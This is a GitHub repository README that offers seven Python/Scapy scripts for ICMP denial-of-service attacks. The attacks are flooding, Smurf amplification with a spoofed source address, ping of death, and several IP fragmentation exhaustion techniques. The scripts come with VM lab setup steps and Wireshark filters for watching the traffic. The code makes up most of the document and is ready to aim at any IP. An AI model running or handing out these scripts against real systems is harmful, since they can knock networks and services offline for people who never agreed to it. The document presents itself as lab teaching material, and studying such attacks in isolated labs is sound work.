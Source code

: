 # icmp-ddos-demo

# ICMP-based DDoS Attack Demonstration

This repository contains Python scripts to simulate various ICMP-based DDoS attacks, including:

- ICMP Flood
- Smurf Attack
- Ping of Death
- Fragmentation Flood
- Overlapping Fragments
- Reassembly Queue Overflow
- CPU Spike via Fragmentation

These scripts are intended solely for educational purposes in a controlled lab environment.

---

## Prerequisites

Install **Scapy**:
```bash
pip install scapy
```

---

## Lab Setup Instructions (VMware on macOS)

**Recommended:** Use VMware Fusion with Ubuntu Server or Metasploitable2 VM.

### VMware Fusion Setup

1. [Download and install VMware Fusion](https://customerconnect.vmware.com/downloads/#all_products).
2. Create a new VM:
    - Download [Ubuntu Server LTS](https://ubuntu.com/download/server) OR [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).
    - Select **Host-Only Networking** for safe isolation.

### Obtain VM IP Address

Run on VM:
```bash
ip addr
```
Use the IP for attack scripts below.

---

## Python Scripts

### 1. ICMP Flood (`icmp_flood.py`)
```python
# ICMP Flood Attack Script
# Sends rapid ICMP echo requests to overwhelm bandwidth and CPU resources.

from scapy.all import IP, ICMP, send

def icmp_flood(target_ip, packet_count=1000):
    packet = IP(dst=target_ip)/ICMP()
    send(packet, count=packet_count, inter=0.001)

# Replace TARGET_IP with your VM's IP address
# icmp_flood("TARGET_IP", 2000)
```

### 2. Smurf Attack (`smurf_attack.py`)
```python
# Smurf Attack Script
# Amplifies traffic by spoofing victim IP to broadcast address.

from scapy.all import IP, ICMP, send

def smurf_attack(broadcast_ip, spoofed_src_ip, packet_count=500):
    packet = IP(src=spoofed_src_ip, dst=broadcast_ip)/ICMP()
    send(packet, count=packet_count, inter=0.01)

# Replace BROADCAST_IP and SPOOFED_IP appropriately
# smurf_attack("BROADCAST_IP", "SPOOFED_IP", 1000)
```

### 3. Ping of Death (`ping_of_death.py`)
```python
# Ping of Death Script
# Sends an oversized ICMP packet to cause crashes or instability.

from scapy.all import IP, ICMP, send, Raw

def ping_of_death(target_ip):
    payload = b'X' * 65500
    packet = IP(dst=target_ip)/ICMP()/Raw(load=payload)
    send(packet)

# Replace TARGET_IP with your VM's IP address
# ping_of_death("TARGET_IP")
```

### 4. Fragmentation Flood (`fragmentation_flood.py`)
```python
# Fragmentation Flood Script
# Rapidly sends fragmented packets causing reassembly exhaustion.

from scapy.all import IP, ICMP, send, fragment, Raw

def fragmentation_flood(target_ip, packet_count=500):
    payload = b'X' * 4000
    packet = IP(dst=target_ip)/ICMP()/Raw(load=payload)
    fragments = fragment(packet, fragsize=8)
    for _ in range(packet_count):
        send(fragments, inter=0.001)

# Replace TARGET_IP with your VM's IP address
# fragmentation_flood("TARGET_IP", 100)
```

### 5. Overlapping Fragments (`overlapping_fragments.py`)
```python
# Overlapping Fragments Script
# Creates conflicting fragments causing confusion in reassembly logic.

from scapy.all import IP, ICMP, send, Raw

def overlapping_fragments(target_ip):
    payload = b'X' * 48
    packet1 = IP(dst=target_ip, id=12345, flags="MF", frag=0)/ICMP()/Raw(load=payload[:24])
    packet2 = IP(dst=target_ip, id=12345, flags=0, frag=2)/Raw(load=payload[16:])
    send([packet1, packet2])

# Replace TARGET_IP with your VM's IP address
# overlapping_fragments("TARGET_IP")
```

### 6. Reassembly Queue Overflow (`reassembly_overflow.py`)
```python
# Reassembly Queue Overflow Script
# Consumes all reassembly resources by generating multiple unique fragmented packets.

from scapy.all import IP, ICMP, send, fragment, Raw
import random

def reassembly_overflow(target_ip, packet_count=500):
    payload = b'X' * 4000
    for _ in range(packet_count):
        id = random.randint(1000, 65000)
        packet = IP(dst=target_ip, id=id)/ICMP()/Raw(load=payload)
        fragments = fragment(packet, fragsize=8)
        send(fragments, inter=0.001)

# Replace TARGET_IP with your VM's IP address
# reassembly_overflow("TARGET_IP", 200)
```

### 7. CPU Spike via Fragmentation (`cpu_spike.py`)
```python
# CPU Spike via Fragmentation Script
# Generates rapid small fragments, causing excessive CPU usage on targeted devices.

from scapy.all import IP, ICMP, send, fragment, Raw

def cpu_spike(target_ip, packet_count=500):
    payload = b'X' * 2000
    packet = IP(dst=target_ip)/ICMP()/Raw(load=payload)
    fragments = fragment(packet, fragsize=8)
    for _ in range(packet_count):
        send(fragments, inter=0.0001)

# Replace TARGET_IP with your VM's IP address
# cpu_spike("TARGET_IP", 100)
```

---

## Wireshark Capture Recommendations

- **ICMP traffic:** `icmp`
- **Fragmentation:** `ip.flags.mf==1 || ip.frag_offset>0`
- **Oversized packets (Ping of Death):** `(icmp) && (frame.len > 1500)`

---

## Disclaimer

This content is for educational use only. Perform these tests responsibly within your own controlled environments.

